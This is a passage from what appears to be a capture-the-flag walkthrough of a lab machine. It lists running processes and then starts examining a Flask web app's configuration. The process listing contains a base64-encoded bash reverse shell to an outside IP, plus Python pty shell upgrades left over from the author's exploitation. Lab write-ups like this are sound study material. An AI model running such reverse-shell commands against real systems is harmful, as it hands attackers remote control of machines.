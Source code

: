 

    atlas@sandworm:/proc$ ls | while read d; do cat "$d/cmdline" 2>/dev/null && echo " [$d]"; done
    /usr/local/bin/firejail--profile=webappflaskrun [1]
    /usr/bin/python3/usr/local/sbin/flaskrun [20]
    gpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemon [20089]
    scdaemon--multi-server [20091]
    /bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52380]
    bash [52383]
    bash-i [52384]
    python3-cimport pty; pty.spawn("/bin/bash") [52405]
    /bin/bash [52406]
    python3 [52412]
    /bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52429]
    bash [52432]
    bash-i [52433]
    python3-cimport pty;pty.spawn("/bin/bash") [52439]
    /bin/bash [52440]
    /bin/bash [53338]
    catself/cmdline [self]
    catthread-self/cmdline [thread-self]



This output still has nulls where spaces should be, so they appear
missing. Still I can see what's going on. All I can see is processes
running as atlas (from the jail). There's the `firejail` jail with the
`webappflaskrun` profile, Flask running presumably the webapp (I can
verify that by going into `20/cwd` and seeing it matches
`/var/www.md/SSA`), the `gpg-agent`, and then mostly just stuff I
created exploiting the box.

#### Web

The website lives in `var/www.md/SSA/SSA`:



    atlas@sandworm:/var/www.md/SSA/SSA$ ls
    app.py       models.py    src     submissions
    __init__.py  __pycache__  static  templates



There's not much useful in the application, though I'll go through it in
[Beyond Root](#exploring-flask) just to understand it. However, in
`__init__.py`, there's a database connection string used by the Python
ORM SQLAlchemy:



    from flask import Flask
    from flask_login import LoginManager
    from flask_sqlalchemy import SQLAlchemy

    db = SQLAlchemy()

    def create_app():
        app = Flask(__name__)
